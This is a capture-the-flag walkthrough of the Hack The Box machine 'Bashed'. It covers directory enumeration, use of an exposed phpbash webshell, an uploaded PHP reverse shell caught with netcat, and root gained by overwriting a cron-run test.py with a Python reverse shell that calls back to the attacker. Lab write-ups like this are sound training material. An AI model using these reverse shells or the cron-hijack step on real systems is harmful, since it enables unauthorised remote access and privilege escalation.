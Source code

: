 ```yaml
---
title: "Bashed"
tags:
  - Easy
  - Linux
  - php
  - misconfiguration
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|:-| :--------: |--|:------------: |--| :--------:|--|
|  |  Easy |  | 10.10.10.68 |  | [Bashed](https://app.hackthebox.com/machines/bashed) |  |

---

## Enumeration

### Nmap

```
nmap -T4 -p- -sC -sV -oN nmap/bashed 10.10.10.68

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 00:22 EST
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Web Enumeration

The target hosts a webservice on port 80. Navigating to http://10.10.10.68, we find a simple website title "Arrexel's Development Site". We may assume Arrexel is the user.

Using Gobuster for directory enumeration revealed several endpoints:
> **_NOTE:_** commonly used wordlist for directory and subdomain enumeration

```
gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt 
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 19966 / 19967 (99.99%)
===============================================================
Finished
===============================================================
```

The `/php` directory displays an exposed sendMail.php.
![sendmail](../assets/Bashed/screenshot.php.png)

The `/dev` directory contained a webshell named phpbash. Accessing it gave us an interactive shell as the `www-data` user:

![phpbash](../assets/Bashed/screenshot.dev.png)

## Foothold

We run `sudo -l` to display the sudo privileges of the current user and notice that the scriptmanager can run all. We execute `sudo -u scriptmanager bash -i` to switch to `scriptmanager` user, but the interactive web shell is not persistent.

![www-data](../assets/Bashed/screenshot.www-data.png)

From our enumeration, we discovered the `uploads` directory. Before attempting to upload a reverse shell, we will test whether file uploads are allowed and accessible.

![uploads](../assets/Bashed/screenshot.uploads.png)

We verify that the file is accessible by navigating to `http://10.10.10.68/uploads/test`, confirming that we could upload and execute files in this directory.

We copied the PHP reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and create a file called `shell.php`. We must ensure that the IP address and port are changed accordingly.

```
$ip = <Your_IP>;  // CHANGE THIS
$port = <1234>;       // CHANGE THIS
```

We hosted the shell.php file using Python's HTTP server. This makes the file available for download from the target machine. Using the webshell (`phpbash`), we upload the file from our attaching machine at port 80 and catch the reverse shell connection, by starting a netcat listener on port 1234. Finally, we navigate to `http://10.10.10.68/uploads/shell.php` to trigger the reverse shell to gain an persistent interactive shell.

```
python3 -m http.server 80  

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.68 - - [11/Jan/2025 16:18:58] "GET /shell.php HTTP/1.1" 200 -
```
![uploads-reverse-shell](../assets/Bashed/screenshot.uploads-reverse-shell.png)

```
nc -lnvp 1234
```

![persistent](../assets/Bashed/screenshot.persistent.png)

We execute the code to switch to `scriptmanager` user and succeed. We run `ls -la` to see a list of ownership for availabe files. `/scripts` directory contained files owned by `scriptmanager`.

```
sudo -u scriptmanager bash -i
scriptmanager@bashed:/$ ls -la
ls -la
total 92
...
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jan 10 20:21 scripts
...
```

## Privilege Escalation

Running `ls -la` on `/scripts` we obeserve a cron job executed `test.py` every minute. Any modifications will be triggered frequently and will allow us to escalate privilege.

![scripts](../assets/Bashed/screenshot.scripts.png)

We modify `test.py` with reverse shell script. 
> **_NOTE:_**  The `vi` editor was cumbersome in this environment because it was not reacting to typical vi hotkeys. As a result, we opt to use `echo` for a quicker and more efficient approach to overwrite the file. 

```
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((<Your_IP>,1337));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("/bin/bash")" > test.py
```
We set up a listener on port 1337 and run `test.py` to initate reverse shell.

```
nc -lvnp 1337
```
```
python3 test.py
```
After the cron job triggered the modified `test.py`, we established a root shell, successfully escalating our privileges.

![root](../assets/Bashed/screenshot.root.png)

The user and root flag are located in a `/home/arrexel/user.txt` and `root/root.txt`, respectively.